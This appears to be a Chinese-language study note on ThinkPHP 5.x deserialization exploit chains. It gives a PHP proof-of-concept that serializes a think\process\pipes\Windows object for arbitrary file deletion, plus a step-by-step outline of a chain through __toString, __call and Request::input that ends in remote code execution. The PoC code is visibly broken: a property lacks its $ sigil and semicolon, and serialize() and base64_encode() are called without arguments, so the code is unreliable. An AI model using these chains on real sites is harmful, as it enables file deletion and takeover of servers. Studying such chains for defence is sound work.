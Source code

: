 - PoC

```php
<?php
namespace think\process\pipes;

//step3: 查看Pips发现是虚类，因此只用写出即可
class Pips {}

//Pips和Windows的命名空间一样，写一个即可
//namespace think\process\pipes;

// step2: 继承了Pips，需要引用
class Windows extends Pips {
  private file = [] //step2.1 源代码$this->file，写poc的时候就是私有属性
  // step2.2 file在源代码__construct就赋值，因此这里同步写就行了（包括函数访问域）
  public function __construct(){ 
    $this->file = ['FILE PATH'];
  }
}
//step1: generate exp
echo serialize();
echo PHP_EOL; //换行
echo base64_encode();
```

编写思路：

1. 【step1】固定写出生成exp的php代码
2. 【step2和step3】再写反序列化的大致流程：写出整个反序列化设计到的所有类，先写实类再写虚类，同命名空间下可合并在一起写。实类之间按照反序列化出发顺序去写。
3. 【step2.1和step2.2】然后在目标调用的属性和方法去不同的类里设置他们的目标值，其属性、作用域和调用顺序遵循源代码设定。

### 2. think\process\pipes\Windows+think\Model\Pivot+Request::input RCE

#### - 利用条件

版本范围：ThinkPHP 5.0.X/ThinkPHP 5.1.X

#### - 漏洞原理和分析

1. 入口： `think\process\pipes\Windows:__destruct`方法调用的`removeFiles`方法造成任意文件删除.
2. `file_exists`可触发任意类的`__toString`方法，需要`file_exists($filename)`的$filename可控且设为一个对象。（**因为**`**file_exists**`**函数需要的是一个字符串类型的参数，如果传入一个对象，就会先调用该类**`**__toString**`**方法，将其转换成字符串，然后在返回上层进行后续代码逻辑。**）
3. `think\model\concern\Conversion`的`__toString`实际调用`toArray`，这里寻找函数调用的地方发现`$relation->visible($name)`，意图通过`__call`方法触发，刚好`Reuqest`类没有visible方法且设置了__call方法
4. 结合`Request::input`RCE利用链，寻找调用了该方法的地方完成利用链，比如`param`方法。

详细漏洞分析查看[ThinkPHP5.1.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.1.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

漏洞利用链条承接上一个任意文件删除反序列化漏洞图示之后开始：

![img](https://cdn.nlark.com/yuque/0/2023/png/21861937/1678793796595-50cce937-539f-4b43-b86b-7ae63bfc599c.png)
